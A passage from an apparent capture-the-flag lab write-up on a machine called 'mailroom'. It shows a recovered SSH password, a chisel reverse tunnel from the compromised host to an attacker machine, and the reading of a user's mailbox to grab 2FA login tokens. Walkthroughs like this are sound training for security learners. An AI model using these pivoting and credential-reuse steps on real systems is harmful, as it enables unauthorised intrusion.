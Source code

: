 After repeating this a load of times and resetting the machine even more times, I was able to retrieve `69trisRulez!` as the full password. This password happens to be the password to SSH in as `tristan` as well.

### Port Fowarding --> RCE

Now that we have access to the machine, we can do some port forwarding to make the website available for us. I used `chisel`:

```bash
# on tristan's 
./chisel client 10.10.16.31:1080 R:80:127.0.0.1:80
# on kali
chisel server -p 1080 --reverse
```

Then, we can add `staff-review-panel.mailroom.htb` to our `/etc/hosts` file as `127.0.0.1`. Afterwards, we can visit the website!

<figure><img src="../../.gitbook/assets/image (2524).png" alt=""><figcaption></figcaption></figure>

We already found a password, so we can login. This would cause the application to send a mail to `tristan`, which we can read in `/var/mail/tristan`.

```
Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=6daeea709d39154b9a49f900ffafcaf2
From noreply@mailroom.htb  Tue Apr 18 04:05:54 2023
Return-Path: <noreply@mailroom.htb>
X-Original-To: tristan@mailroom.htb
Delivered-To: tristan@mailroom.htb
Received: from localhost (unknown [172.19.0.5])
        by mailroom.localdomain (Postfix) with SMTP id 9D922D95
        for <tristan@mailroom.htb>; Tue, 18 Apr 2023 04:05:54 +0000 (UTC)
Subject: 2FA

Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=fe298deab0eb116d330d4c126cfc9414
```
